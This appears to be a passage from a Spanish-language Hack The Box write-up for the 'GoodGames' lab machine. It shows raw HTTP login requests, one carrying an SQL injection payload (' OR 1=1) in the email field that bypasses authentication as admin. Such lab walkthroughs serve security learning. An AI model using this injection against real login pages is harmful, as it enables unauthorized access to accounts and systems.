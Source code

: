 ```
POST /login HTTP/1.1
Host: 10.10.11.130
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 55
Origin: http://10.10.11.130
Connection: keep-alive
Referer: http://10.10.11.130/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

email=admin%40goodgames.htb&password=admin
```

Al realizar la petición, tratamos de modificarla para realizar una SQL Injection Error-Based y ver si podemos saltarnos la autenticación. Cabe mencionar que **el usuario debe de existir**, de lo contrario la autenticación no se realizará por que no existe ningún usuario con ese nombre.

```
POST /login HTTP/1.1
Host: 10.10.11.130
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 55
Origin: http://10.10.11.130
Connection: keep-alive
Referer: http://10.10.11.130/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

email=admin%40goodgames.htb' OR 1=1&password=admin
```

Esto nos daría acceso como administrador:

![/assets/img/writeups/goodgames/htb-writeup-goodgames-1.png](/assets/img/writeups/goodgames/htb-writeup-goodgames-1.png)
